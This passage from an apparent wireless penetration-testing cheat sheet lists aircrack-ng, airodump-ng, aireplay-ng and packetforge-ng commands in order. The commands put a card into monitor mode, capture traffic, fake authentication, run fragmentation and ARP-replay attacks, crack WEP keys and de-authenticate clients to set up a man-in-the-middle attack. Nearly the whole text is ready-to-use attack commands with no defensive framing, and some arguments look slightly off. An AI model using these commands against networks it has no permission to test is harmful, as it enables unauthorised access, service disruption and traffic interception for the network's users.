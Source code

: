 Once Injecting Packet with Success, ran aircrack-ng \(PTW Attack -z\):

```text
aircrack-ng -0 -z -n 64 <filename>
```

## Wireless AP Attacks when there are no clients

Monitor Mode:

```text
airmon-ng start wlan0 <AP Channel Number>
```

Airodump Caputure of Traffic:

```text
airodump-ng -c <AP Channel> --bssid <AP MAC> -w <filename> mon0
```

Fake Authentication Attack on AP:

```text
aireplay-ng -1 0 -e <AP ESSID> -a <MAC Address of AP> -h <MON MAC Address> mon0
```

Fragmentation Attack:

```text
aireplay-ng -5 -b <AP MAC> -h <Mon MAC Address> mon0
```

After obtaining a PRGA packet, we conduct a ARP Attack with Packetforge:

```text
packetforge-ng -0 -a <AP MAC> -h <Mon MAC Address> -l <Source IP> -k <Dest IP> -y  <xor filename> -w <packet filename>
```

Interactive Packet Replay Attack:

```text
aireplay-ng -2 -r <packet-filename> mon0
```

Once we see injection is a success, crack pass:

```text
aircrack-ng -0 <filename>
```

## Launch Wireless MiTM with Aircrack

Monitor Mode:

```text
airmon-ng start wlan0 <AP Channel Number>
```

De-Auth Client:

```text
aireplay-ng --deauth -5 -a <AP MAC>
```
